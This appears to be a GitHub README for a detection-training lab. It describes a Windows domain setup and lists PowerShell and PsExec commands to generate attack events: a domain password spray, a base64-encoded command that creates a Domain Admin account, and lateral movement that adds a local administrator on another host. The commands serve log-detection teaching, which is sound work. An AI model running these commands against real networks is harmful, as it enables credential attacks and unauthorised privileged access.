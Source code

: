 # Lab Setup
For more setup scripts and cool stuff, check out the fork of https://github.com/CyberConTraining/LogDetectionLab by @BoredHackerBlog

## Infrastructure
- Your infrastructure can really be hosted anywhere.
  - Locally via vmware, virtualbox, etc
  - In the cloud via Azure, GCP, AWS
  - Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
  - supported OS version
  - [Logmira](https://github.com/Blumira/Logmira) (Either reduced or full verbosity is fine)

### 2. Windows Endpoint
- Joined to above domain
- Installs
  - Download and install [Wireshark](https://www.wireshark.org/)
  - Clone [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
  - Download both usernames.txt and passlist.txt from this github directory
  - Sysinternals Suite - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite

### 3. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

We will cover in all lab demos finding event IDs in windows event viewer, but then also the concept of what they would look like in a SIEM as well. For in person trainings, everyone will be provided with logins to the Blumira platform during the class.

## Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
   - Right-click, run powershell as admin
```
CD **directory where script has been saved**

Get-ExecutionPolicy

Set-ExecutionPolicy Unrestricted

Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -UserList userlist.txt -Domain production.local -PasswordList passlist.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Get-ExecutionPolicy

Import-Module ActiveDirectory

$command = "New-ADUser -Name 'HP Lovecraft' -GivenName 'HP Lovecraft' -SamAccountName 'hplovecraft' -UserPrincipalName 'hplovecraft@miratime.org' -Path 'OU=TestUsers,DC=miratime,DC=org' -AccountPassword(Read-Host -AsSecureString 'Type Password for User')" 

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes) 

powershell.exe -EncodedCommand $encodedCommand

Enable-ADAccount -Identity "hplovecraft"

Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
